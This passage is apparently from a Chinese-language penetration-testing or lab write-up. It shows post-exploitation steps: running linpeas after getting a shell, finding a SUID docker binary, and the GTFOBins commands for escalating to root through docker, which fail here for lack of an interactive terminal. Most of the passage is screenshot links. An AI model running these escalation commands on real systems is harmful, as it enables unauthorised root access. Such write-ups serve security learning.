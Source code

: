 执行命令上线，再操作一波：

[![](assets/1711556160-b13e0110547df3033a3e0205bbf076f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203707-f46ffa90-3455-1.png)

上传到临时文件再赋予权限执行

[![](assets/1711556160-2819db0abace9cfb150d247fa89f998d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203723-fe5e0790-3455-1.png)

用的 kali 集成的 linpeas，内容比较多，这里已经提示了 suid 提权，找一下：

[![](assets/1711556160-403c3dc450ef3b11730b15f3dc1848cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203737-069361a8-3456-1.png)

去[https://gtfobins.github.io/gtfobins/docker/找到提权的向量：](https://gtfobins.github.io/gtfobins/docker/%E6%89%BE%E5%88%B0%E6%8F%90%E6%9D%83%E7%9A%84%E5%90%91%E9%87%8F%EF%BC%9A)

```plain
sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

这里不是交互式的 tty，所以失败了

[![](assets/1711556160-93529d35bea4cc08c4cd0979adf0e3cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203750-0e0e58d4-3456-1.png)
